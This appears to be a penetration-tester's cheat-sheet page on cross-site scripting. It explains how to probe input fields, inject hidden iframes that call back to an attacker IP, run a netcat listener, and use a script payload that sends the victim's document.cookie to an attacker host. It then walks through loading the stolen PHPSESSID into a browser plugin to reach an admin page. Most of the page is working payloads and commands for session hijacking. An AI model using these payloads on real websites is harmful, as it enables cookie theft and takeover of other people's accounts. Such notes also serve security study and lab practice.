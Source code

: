 # Cross Site Scripting \(XSS\)

## Enumerating XSS

### **Find Input Fields**

Input fields may be found in the following examples:

* Search boxes
* Comments
* Post
* Forms

**Try inserting special characters to see if they are not filtered:**

```text
< >; ' " { } ;
```

* &lt; &gt;; = denote elements in HTML
* ' " = denote strings on JavaScript
* {} = function declarations of JavaScript
* ; = end of a statement on JavaScript

**If this character are not removed or encoded then it might be vulnerable to XSS**

* URL Encoding
* HTML Encoding

**Then we might be able to code since we can use this special characters!**

### Content Injection 

If we want to place content in the website and the site is vulnerable to XSS then we may be able to use some techniques to "inject" malicious content to the website.

#### iframe Method

iframe embeds another file within the current HTML document

```text
<iframe src=http://192.168.119.134/report height="0" width="0"></iframe>
<iframe src=http://192.168.119.134/report height=”0” width=”0”></iframe>
```

**The quotes ' " can affect this.**

Visit/Refresh the webpage that has the code and click on the iframe to receive connection back with:

```text
sudo nc -lvnp 80 
```

### Stealing Cookies

**Cookies can be set with several option flags:**

* Secure = Instructs the browser to only send the cookie over encrypted connections, such as HTTPS. 
* HttpOnly = Instructs the browser to deny JavaScript access to the cookie. If it set to **FALSE** we can use an XSS payload to steal the cookie.

#### Stealing Cookies Methodology

Setup a nc listener with the following command:

```text
nc -lvnp 80
```

Create the payload to capture the victim's cookie**:**

```text
<script>new Image().src="http://192.168.10.10/filename.jpg?output="+document.cookie;</script>
```

Add the cookie from the netcat into the Cooke-Editor Plugin:

{% embed url="https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/?src=search" %}

Cookie Editor Plugin &gt; Add &gt; Name: PHPSESSID Value: &lt;cookie\_value&gt; -&gt; Save

**Visit the administrator page**

```text
/admin-page.php
```

 

